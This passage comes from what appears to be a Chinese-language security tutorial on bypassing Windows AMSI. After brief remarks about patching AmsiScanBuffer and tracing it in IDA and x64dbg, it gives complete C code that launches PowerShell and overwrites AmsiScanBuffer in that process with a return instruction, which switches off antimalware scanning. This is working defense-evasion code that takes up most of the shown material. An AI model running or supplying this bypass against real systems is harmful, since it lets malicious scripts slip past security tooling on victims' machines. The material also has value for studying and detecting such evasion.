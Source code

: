 修补该函数使其直接返回\(具体细节大家可以使用ida和x64dbg跟一下\)。

![](../.gitbook/assets/image%20%2866%29.png)

![](../.gitbook/assets/image%20%2863%29.png)

绕过AMSI。

![](../.gitbook/assets/image%20%2845%29.png)

## 代码实现

由于powershell版的内存补丁绕过在互联网上到处都是，且有被标黑，这里就不贴出来了\(好吧其实是我懒\)，这里我们其实也有多种实现思路，可以查找运行中的powershell.exe进程来进行修补，也可以自己创建一个新的powershell进程进行修补，这里采用新创建的powershell进行修补。

```text
#include <Windows.h>
#include <stdio.h>

int main() {
	STARTUPINFOA si = {0};
	PROCESS_INFORMATION pi = { 0 };
	si.cb = sizeof(si);

	CreateProcessA(NULL, (LPSTR)"powershell -NoExit dir", NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi);

	HMODULE hAmsi = LoadLibraryA("amsi.dll");
	LPVOID pAmsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");

	Sleep(500);

	DWORD oldProtect;
	char patch = 0xc3;

	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
	WriteProcessMemory(pi.hProcess, (LPVOID)pAmsiScanBuffer, &patch, sizeof(char),NULL);
	VirtualProtectEx(pi.hProcess, (LPVOID)pAmsiScanBuffer, 1, oldProtect, NULL);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	FreeLibrary(hAmsi);
	return 0;
}
```

![](../.gitbook/assets/image%20%28113%29.png)
